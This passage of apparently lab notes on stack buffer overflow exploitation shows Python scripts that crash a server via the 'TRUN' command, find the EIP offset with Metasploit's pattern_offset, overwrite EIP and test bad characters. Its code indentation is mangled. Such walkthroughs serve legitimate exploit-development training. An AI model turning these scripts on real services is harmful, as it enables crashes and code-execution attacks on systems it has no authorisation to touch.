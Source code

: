             try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect(('172.16.253.150', 9999))
                s.send(('TRUN /.:/' + offset))
                s.close()
                            
                except:
                print "error connecting to server... you fucked somthing up"
                sys.exit()
                
        it should crash the server. Notice the `EIP` value
        `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q <eip value>`
        this will give us the exact `offset`. this is the exact number of bytes
        before the 4 byte `EIP`
        
    overwritting the `EIP` with `offset`
        `eip_checker.py`
        #!/usr/bin/python
        import sys, socket
        
        shellcode = "A" * <offset> + "B" * 4
        try:
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('172.16.253.150', 9999))
            s.send(('TRUN /.:/' + shellcode))
            s.close()
                        
            except:
            print "error connecting to server... you fucked somthing up"
            sys.exit()
            
        in the `eip` if it works we should see 42424242 which means 4 B's
        now we know where the exact location of the `EIP` is at!
        
    find bad charaters
        we need to find out which chars are bad that we CAN'T use in
        our shell code.  by defualt x00 (the null byte) will be bad
            `badchars_checker.py`
            #!/usr/bin/python
            import sys, socket
            
            badchars =
            ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
            "\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
            "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
            "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
            "\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
            "\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
            "\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
            "\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
            
